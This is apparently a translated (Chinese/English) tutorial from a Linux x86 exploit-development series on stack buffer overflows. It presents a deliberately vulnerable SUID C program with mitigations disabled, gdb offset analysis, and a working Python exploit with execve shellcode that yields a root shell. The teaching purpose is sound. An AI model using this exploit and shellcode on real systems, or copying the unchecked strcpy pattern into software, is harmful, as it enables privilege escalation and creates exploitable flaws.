

Posted on May 8, 2015 by sploitfun
VM Setup : Ubuntu 12.04 (x86)
这是该系列中最简单的一篇文章，并且，你已经能够在网上找到许多内容相似的文章。尽管如此，我仍然想要在自己博客上也写一篇关于它的文章，因为这将会为我之后要发表的post打下基础。
什么是Buffer Overflow?
在以下情况中,将source buffer复制到destination buffer中可能会产生溢出:
源字符串比目标字符串更长
没有长度检测
栈溢出可分为如下两种类型:
Stack Based Buffer Overflow – 目的缓冲区在栈中
Heap Based Buffer Overflow – 目的缓冲区在堆中
Here in this post, I will talk only about stack based buffer overflow. Heap overflows will be discussed in ‘Level 3’ of Linux (x86) Exploit Development Tutorial Series !!
栈溢出漏洞将会导致任意代码执行!!
什么是arbitrary code execution?
任意代码执行允许攻击者执行他想要执行的代码, 以此来获得受害机器的控制权. 攻击者可通过产生一个root shell, 添加一个新用户, 开启一个网络端口等方式来获得主机的控制权.
听起来还蛮有意思的, 让我们通过下面的一段代码来更深入的了解栈溢出!
Vulnerable Code:
1
2
3
4
5
6
7
8
9
10
#include <stdio.h>
#include <string.h>
int main (int argc, char * argv[])
char buf[256 ];
strcpy (buf,argv[1 ]);
printf ("Input:%s\n" ,buf);
return 0 ;
}
Compilation Commands:
1
2
3
4
5
# echo 0 > /proc/sys/kernel/randomize_va_space //关闭aslr
$ gcc -g -fno-stack-protector -z execstack -o vuln vuln.c //无cannary
$ sudo chown root vuln //改变权限
$ sudo chgrp root vuln
$ sudo chmod +s vuln //设置suid
在上述代码中,Line [2]存在缓冲区溢出漏洞. 这个漏洞可以造成任意代码执行, 因为源缓冲区的内容是由用户输入的.
任意代码执行如何实现?
Arbitrary code execution是通过Return Address Overwrite实现的. 通过对返回地址的覆写, 我们可以返回到任意地方.
在看exp之前, 我们先看看反汇编代码和栈布局.
Disassembly :
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
(gdb) disassemble main
Dump of assembler code for function main:
//Function Prologue
0x08048414 <+0>: push %ebp //backup caller's ebp
0x08048415 <+1>: mov %esp,%ebp //set callee's ebp to esp
0x08048417 <+3>: and $0xfffffff0,%esp //stack alignment
0x0804841a <+6>: sub $0x110,%esp //stack space for local variables
0x08048420 <+12>: mov 0xc(%ebp),%eax //eax = argv
0x08048423 <+15>: add $0x4,%eax //eax = &argv[1]
0x08048426 <+18>: mov (%eax),%eax //eax = argv[1]
0x08048428 <+20>: mov %eax,0x4(%esp) //strcpy arg2
0x0804842c <+24>: lea 0x10(%esp),%eax //eax = 'buf'
0x08048430 <+28>: mov %eax,(%esp) //strcpy arg1
0x08048433 <+31>: call 0x8048330 <strcpy@plt> //call strcpy
0x08048438 <+36>: mov $0x8048530,%eax //eax = format str "Input:%s\n"
0x0804843d <+41>: lea 0x10(%esp),%edx //edx = buf
0x08048441 <+45>: mov %edx,0x4(%esp) //printf arg2
0x08048445 <+49>: mov %eax,(%esp) //printf arg1
0x08048448 <+52>: call 0x8048320 <printf@plt> //call printf
0x0804844d <+57>: mov $0x0,%eax //return value 0
//Function Epilogue
0x08048452 <+62>: leave //mov ebp, esp; pop ebp;
0x08048453 <+63>: ret //return
End of assembler dump.
(gdb)
Stack Layout :

我们已经知道超过256字节的输入将会导致溢出, 并且可能会覆盖栈中存储的返回地址. 下面让我们测试一下.
Test Step 1: Is Return Address Overwrite possible?
1
2
3
4
5
6
7
8
9
10
11
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*300'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*300'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$ 1 = 0x41414141
(gdb)
上面的输出表明EIP已经被覆盖为AAAA, 这证实了我们的想法—— 返回地址是可以覆写的.
Test Step 2: What is the offset from Destination Buffer?
下面我们需要计算出从返回地址到buf之间需要覆盖多少个字节, 从上面的栈布局图中我们可以看到retaddr到buf的偏移地址是0x10c, 计算过程如下:
0x10c = 0x100 + 0x8 + 0x4
上面
0x100是buf缓冲区的大小
0x8是对齐偏移
0x4是caller’s EBP
因此输入A * 268 + B * 4将会把返回地址改写成BBBB, 其余部分覆盖为AAAA.
1
2
3
4
5
6
7
8
9
10
11
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*268 + "B"*4'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*268 + "B"*4'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$ 1 = 0x42424242
(gdb)
上述输出结果表明攻击将返回地址改写成了BBBB. 我们可以根据上述的原理写一个exp来实现任意代码执行.
Exploit Code:
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
import struct
from subprocess import call
ret_addr = 0xbffff1d0
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
def conv (num) :
return struct.pack("<I" ,num)
buf = "A" * 268
buf += conv(ret_addr)
buf += "\x90" * 100
buf += scode
print "Calling vulnerable program"
call(["./vuln" , buf])
执行上述的exp, 我们可以得到一个shell:
1
2
3
4
5
6
7
8
$ python exp.py
Calling vulnerable program
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
NOTE : Inorder to get this root shell, we turned off many exploit mitigation techniques. Infact for all the posts in level 1, I have disabled these exploit mitigation techniques, since the objective of level 1, is to introduce you to vulnerabilities. And real fun happens when we get to “Level 2” of Linux (x86) Exploit Development Tutorial Series , where I will talk about bypassing these exploit mitigation techniques!!!
可以使用gdb peda工具直接计算出偏移地址, 具体可见下面这篇文章